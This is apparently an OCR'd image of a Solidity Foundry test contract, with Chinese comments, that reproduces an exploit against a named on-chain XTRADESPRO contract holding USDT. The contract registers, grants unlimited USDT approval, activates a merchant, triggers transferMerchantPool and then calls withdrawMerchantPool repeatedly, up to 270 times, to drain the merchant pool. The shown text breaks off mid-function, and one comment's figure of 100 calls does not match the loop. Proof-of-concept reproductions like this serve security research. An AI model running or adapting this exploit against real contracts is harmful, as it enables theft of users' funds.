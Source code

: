 ```sol
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
    function approve(address spender, uint256 amount) external returns (bool);
}

interface IXTRADESPRO {
    function withdrawMerchantPool() external;
    function register(address referrer, address merchant) external ;
    function activateMerchant(string memory country) external;
    function transferMerchantPool() external;
}

contract AttackerV2 is Test {
    // 受害者合约地址
    address private constant VICTIM_CONTRACT = 0xB9D195022da410970676DC31E4aBBc19063DD158;
    address private constant USDT_TOKEN = 0x55d398326f99059fF775485246999027B3197955;
    address public ATTACKER_EOA;
    
    constructor(address _attackerEOA) {
        ATTACKER_EOA = _attackerEOA;
    }
    
    // 接收ETH函数
    receive() external payable {}
    
    // 攻击函数 - 直接执行攻击逻辑
    function attack() public {
        require(msg.sender == ATTACKER_EOA, "Only attacker EOA can call this function");
        
        // 直接执行攻击逻辑
        _executeAttack();
    }
    
    // 实际攻击执行函数
    function _executeAttack() internal {
        // 确保合约拥有足够的USDT余额
        uint256 contractBalance = IERC20(USDT_TOKEN).balanceOf(address(this));
        console.log(unicode"合约USDT余额:", contractBalance / 1e18);
        
        // 尝试注册和激活商户 
        // 注册用户 - 使用从交易数据中获取的地址
        IXTRADESPRO(VICTIM_CONTRACT).register(address(0x85aAAff4Db7B629b1e868231B411E53976a193eF), address(0xeA9471470d3389F1EFe9C2142a172E3907DC612F));
        
        // 首先授权受害者合约使用足够的USDT来支付注册费和商户费
        IERC20(USDT_TOKEN).approve(VICTIM_CONTRACT, type(uint256).max);
        // 激活商户
        IXTRADESPRO(VICTIM_CONTRACT).activateMerchant("hiroki");

        // 调用transferMerchantPool分配资金到商户池
        IXTRADESPRO(VICTIM_CONTRACT).transferMerchantPool();

        // 循环调用受害者合约的withdrawMerchantPool函数多次
        // 根据原始攻击合约，实际调用了100次
        for (uint256 i = 0; i < 270; i++) {
            try IXTRADESPRO(VICTIM_CONTRACT).withdrawMerchantPool() {
                continue;
            } catch {
                console.log(unicode"提取资金失败，退出循环",i);
                break;
            }
        }
        
```